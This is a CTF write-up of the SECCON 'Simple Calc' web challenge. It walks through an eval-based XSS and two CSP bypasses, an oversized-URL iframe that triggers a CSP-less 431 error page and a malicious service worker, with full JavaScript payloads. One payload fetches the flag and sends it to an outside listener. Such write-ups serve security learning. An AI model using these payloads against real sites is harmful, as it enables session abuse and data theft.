 ```yaml
---
title: "[Simply Calc] - SECCON Quals"
tags:
  - CTF
  - Write-up
  - csp-bypass
  - client-side
  - service-worker
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-01-19 at 23.06.45.png]]
# Prologue
SECCON CTF is International yearly competition. The finals will take into Japan. 

![[2022-seccon-quals-simple-calc.tar.gz]]
# Write Up
## TL;DR Solution
### Un-intended

The un-intended solution is the player create an iframe with very long url and cause `431` error. The default of that error page in nodejs has a CSP-less, causing player able to bypass the intended CSP. 
### Intended

The intended solution is more complicated, the player need to create file-less service-worker by making use the `eval` function in `/js/index.js` and need to assign a dummy function or variable to prevent error. After that, player will need make use of [FetchEvent](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent) to be able intercept and modify the response without CSP needed.

## Detailed Explanation

### Un-intended

We were given the full source code for this challenge.
![[Screenshot 2024-01-19 at 23.23.33.png]]

As we can see in the `./challenge/src/static/js/index.js`, player able to control the query string of `expr`, and immediately `eval`-ed by the app. 
```js
// ./challenge/src/static/js/index.js
const params = new URLSearchParams(location.search);
const result = eval(params.get('expr'));
document.getElementById('result').innerText = result.toString();
```

By using `/?expr=alert(document.origin)` and we got a free-xss
![[Screenshot 2024-01-19 at 23.29.30.png]]

But the problem arise when we attempt to access the `/flag`.
```js
// ./challenge/src/index.js
// 8< -- Snip -- >8
app.get('/flag', (req, res) => {
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
// 8< -- Snip -- >8
```

As we can see, the CSP is very strict. The challenge CSP has `default-src` and the value is only at `http://localhost:3000/js/index.js`. So, every resources request we make outside that csp will be restricted.
![[Screenshot 2024-01-19 at 23.43.34.png]]

Luckily, In nodejs, the default page for error `431` has CSP-less.
![[Screenshot 2024-01-19 at 23.19.18.png]]

The idea is, we make an iframe with very-very long url to trigger the `413` error. And after that, we will execute JS inside the iframe context.

```js
_=document.createElement('iframe');
_.src=`http://localhost:3000/js/index.js?${"A".repeat(99999)}`;
document.body.appendChild(_);
// give a time to DOM to finish the iframe load
setTimeout(function(){
    _.contentWindow.fetch('/flag', {mode:"same-origin",headers: {"X-FLAG":"nice"}}).then((r)=>r.text()).then((r)=>{location=`http://host.docker.internal:1234/?${r}`});
}, 1000);
```

Send to the bot and we will able to get the flag
![[Screenshot 2024-01-20 at 00.09.21.png]]

![[Screenshot 2024-01-20 at 00.10.07.png]]
### Intended

Basically, `navigator.serviceWorker.register` works is just the same as fetch-ing the resource and then eval it without DOM. Therefore, player need to assign a dummy function or variable to prevent error. To proofing it, we can use `console.log` to check it.

```js
navigator.serviceWorker.register("/js/index.js?expr=console.log(1);1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);
```


![[Screenshot 2024-01-20 at 15.45.41.png]]

As we can see, the `console.log` is fired, but it fail to register the service-worker. So, to prevent the error, we can add dummy DOM to prevent `reject` event. 

*de-minify* 
```js
document={};
document.getElementById=function(e){
	console.log(e);
	return {innerText:1}
};
```
service-worker
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);
```

The service-worker is successfully registered.
![[Screenshot 2024-01-20 at 15.50.16.png]]

After that, we can make use of [Response](https://developer.mozilla.org/en-US/docs/Web/API/Response) and [respondWith](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent/respondWith) to manipulate the response in service-worker scope.

*de-minify*
```js
document={};
document.getElementById=function(e){
	console.log(e);
	return {innerText:1}
};
self.addEventListener('fetch',function(event){
	event.respondWith(
		new Response('<script>eval(location.hash.substr(1))</script>',{
			headers:{
				'Content-Type':'text/html'
			}
		})
	)
});1
```

service-worker
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};self.addEventListener('fetch',function(event){event.respondWith(new Response('<script>eval(decodeURIComponent(location.hash.substr(1)))</script>',{headers:{'Content-Type':'text/html'}}))});1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);1
```

visiting the scope of service worker (`/js`), and we were able to achieve have XSS without CSP.

But, those script still has a problem. Since the [FetchEvent](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent) will intercept all request, when we attempt to request `/flag`, it will be replaced with the XSS payload. Therefore, we need to whitelist the URL `/flag`.

*de-minify*
```js
document={};
document.getElementById=function(e){
	return {innerText:1}
};
self.addEventListener('fetch',function(event){
	if(new URL(event.request.url).pathname.includes('/flag')){return;};
	event.respondWith(
		new Response('<script>eval(location.hash.substr(1))</script>',{
			headers:{
				'Content-Type':'text/html'
			}
		})
	)
});1
```

service-worker, with a little bit cleaning up. The `setTimeout` function is used to let the service-worker installed.
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};self.addEventListener('fetch',function(event){if(new URL(event.request.url).pathname.includes('/flag')){return;};event.respondWith(new Response('<script>eval(decodeURIComponent(location.hash.substr(1)))</script>',{headers:{'Content-Type':'text/html'}}))});1", {"scope":"./js/"});setTimeout(()=>{location="/js/#fetch('/flag', {headers:{'X-FLAG':'nyx'}}).then((r)=>r.text()).then((r)=>{alert(r)})"}, 1000)
```

We successfully whitelisting our request.
![[Screenshot 2024-01-21 at 02.26.36.png]]

So, all we need to do next is just modify the alert into send the response into our webhook.
![[Screenshot 2024-01-21 at 02.29.47.png]]
![[Screenshot 2024-01-21 at 02.30.06.png]]

# Epilogue

As usual, SECCON always has a very good challenge. And unfortunately, I didn't managed to solve this, but i learn something new things with service-worker. 

— nyxsorcerer